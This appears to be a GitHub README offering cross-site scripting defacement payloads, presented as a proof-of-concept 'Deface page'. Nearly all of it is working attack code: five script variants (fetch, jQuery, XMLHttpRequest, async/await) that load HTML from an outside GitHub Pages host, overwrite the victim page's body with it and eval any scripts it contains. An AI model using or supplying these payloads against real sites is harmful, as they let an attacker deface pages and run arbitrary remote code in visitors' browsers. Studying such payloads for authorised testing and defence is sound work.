 #  This is my Deface page for PoC
use the following paylods for testing .
**basic javascript paylod using fetch**
```
<script> fetch('https://karthikdude.github.io/Deface/') .then(response => response.text()) .then(html => { document.body.innerHTML = html; const scripts = document.body.getElementsByTagName('script'); for (let script of scripts) { eval(script.innerText); } }); </script>
here are a few similar XSS deface payloads:

1. **Using jQuery to load and execute external content:**
   ```html
   <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
   <script>
   $.get('https://karthikdude.github.io/Deface/', function(data) {
       $('body').html(data);
       const scripts = document.body.getElementsByTagName('script');
       for (let script of scripts) {
           eval(script.innerText);
       }
   });
   </script>
   ```

2. **Using vanilla JavaScript to load and execute external content:**
   ```html
   <script>
   fetch('https://karthikdude.github.io/Deface/')
       .then(response => response.text())
       .then(html => {
           document.body.innerHTML = html;
           const scripts = document.body.getElementsByTagName('script');
           for (let script of scripts) {
               eval(script.innerText);
           }
       });
   </script>
   ```

3. **Using XMLHttpRequest to load and execute external content:**
   ```html
   <script>
   var xhr = new XMLHttpRequest();
   xhr.open('GET', 'https://karthikdude.github.io/Deface/', true);
   xhr.onreadystatechange = function () {
       if (xhr.readyState == 4 && xhr.status == 200) {
           document.body.innerHTML = xhr.responseText;
           const scripts = document.body.getElementsByTagName('script');
           for (let script of scripts) {
               eval(script.innerText);
           }
       }
   };
   xhr.send();
   </script>
   ```

4. **Using async/await with Fetch API:**
   ```html
   <script>
   async function deface() {
       const response = await fetch('https://karthikdude.github.io/Deface/');
       const html = await response.text();
       document.body.innerHTML = html;
       const scripts = document.body.getElementsByTagName('script');
       for (let script of scripts) {
           eval(script.innerText);
       }
   }
   deface();
   </script>
   ```

1
